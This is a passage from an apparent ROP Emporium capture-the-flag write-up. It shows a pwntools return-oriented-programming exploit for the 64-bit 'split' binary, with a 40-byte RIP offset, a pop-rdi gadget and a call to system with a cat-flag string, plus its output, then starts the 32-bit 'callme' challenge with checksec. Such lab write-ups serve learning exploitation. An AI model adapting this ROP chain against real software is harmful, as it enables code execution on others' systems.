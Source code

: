 
Using the same technique detailed in ret2win, I used gdb gef to find that the offset to overwrite RIP is 40 bytes.

Writing an exploit script.
```python
  1 #!/usr/bin/env python
  2 
  3 from pwn import *
  4 
  5 context.log_level = 'critical'
  6 elf = ELF("./split")
  7 
  8 system_addr = p64(0x4005e0)
  9 bin_cat_addr = p64(0x00601060)
 10 pop_rdi_addr = p64(0x0000000000400883)
 11 
 12 payload = "A"*40
 13 payload += pop_rdi_addr
 14 payload += bin_cat_addr
 15 payload += system_addr
 16 
 17 sh = elf.process()
 18 
 19 sh.recvuntil("> ")
 20 sh.sendline(payload)
 21 
 22 print sh.recvall()
```

Running the exploit.
```shell
~/Documents/ropemporium/split/64split# chmod +x exploit.py && ./exploit.py
ROPE{a_placeholder_32byte_flag!}
```

# callme
<a href="{{ page.url }}#title">Back to top ↑</a>

For this challenge, the description tells us we have to call `callme_one(1, 2, 3)`, `callme_two(1, 2, 3)` and `callme_three(1, 2, 3)`, in that order, to get the flag.

### 32-bit
<a href="{{ page.url }}#title">Back to top ↑</a>

Running checksec.
```shell
~/Documents/ropemporium/callme/32callme# checksec callme32
[*] '/root/Documents/ropemporium/callme/32callme/callme32'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
    RPATH:    './'

```
